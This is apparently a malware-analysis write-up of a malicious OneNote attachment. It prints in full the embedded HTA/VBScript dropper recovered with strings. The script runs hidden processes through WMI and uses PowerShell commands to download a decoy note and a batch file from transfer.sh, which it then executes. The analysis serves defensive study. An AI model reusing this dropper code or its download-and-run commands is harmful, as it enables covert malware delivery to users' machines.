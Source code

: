 - Below are the dumped files, Where "Click to view document" image used to trick user and execute script.

![image](https://user-images.githubusercontent.com/43460691/216254817-9180ca56-1b3f-42eb-8ad1-903b4f1e38c8.png)


- If you look into below HTA file  we can see first ExecuteCmdAsync invoke WebRequest -Uri and downloading **notes_to_do_list.one** file and writing on disk as invoice.one which is simple note and not malicious.

- The second  ExecuteCmdAsync  downloading sky.bat file and writing on disk in tmp folder as system32.bat and execute.

![image](https://user-images.githubusercontent.com/43460691/216255016-54797b05-27ba-493d-8e14-b21d702ee5a7.png)

## Strings Check

- HTA file is not obfuscated and we can see HTA file in Strings output as well.

> ***`REMnux: strings "file name"`***

```
remnux@remnux:~/Downloads$ strings Invoice.one 
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine ) 
    Dim objConfig 
    Dim objProcess 
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL ) 
    Dim procId 
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://www.onenotegem.com/uploads/soft/one-templates/notes_to_do_list.one -OutFile $env:tmp\invoice.one; Start-Process -Filepath $env:tmp\invoice.one"
	    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://transfer.sh/get/5dLEvB/sky.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
```